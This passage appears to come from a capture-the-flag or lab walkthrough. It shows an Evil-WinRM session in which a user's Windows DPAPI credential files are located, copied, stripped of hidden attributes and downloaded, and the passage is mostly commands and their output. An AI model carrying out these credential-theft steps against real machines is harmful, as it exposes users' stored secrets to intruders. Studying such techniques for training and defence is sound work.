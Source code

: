 The user `steph.cooper` has DPAPI credential files stored in the standard Windows locations. Let's locate these files:

```
*Evil-WinRM* PS C:\Users\steph.cooper> Get-ChildItem -Path C:\Users\steph.cooper\AppData -File -Recurse -Force | Where-Object { $_.FullName -match '\\credentials\\' }

    Directory: C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   8:14 AM          11068 DFBE70A7E5CC19A398EBF1B96859CE5D

    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9

*Evil-WinRM* PS C:\Users\steph.cooper>
```

After that we need to copy these files to a location where we can download them after removing the system and hidden attributes:

#### Copy the files:
```bash
*Evil-WinRM* PS C:\Users\steph.cooper> copy C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D .\cred1
*Evil-WinRM* PS C:\Users\steph.cooper> copy C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 .\cred2
*Evil-WinRM* PS C:\Users\steph.cooper> dir


    Directory: C:\Users\steph.cooper

```

#### Remove the system and hidden attributes:

```bash
*Evil-WinRM* PS C:\Users\steph.cooper> attrib -s -h cred*
*Evil-WinRM* PS C:\Users\steph.cooper> dir

    Directory: C:\Users\steph.cooper

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:14 AM          11068 cred1
-a----          3/8/2025   7:54 AM            414 cred2

*Evil-WinRM* PS C:\Users\steph.cooper> download cred*
Info: Downloading C:\Users\steph.cooper\cred* to steph.cooper
Info: Download successful!

```
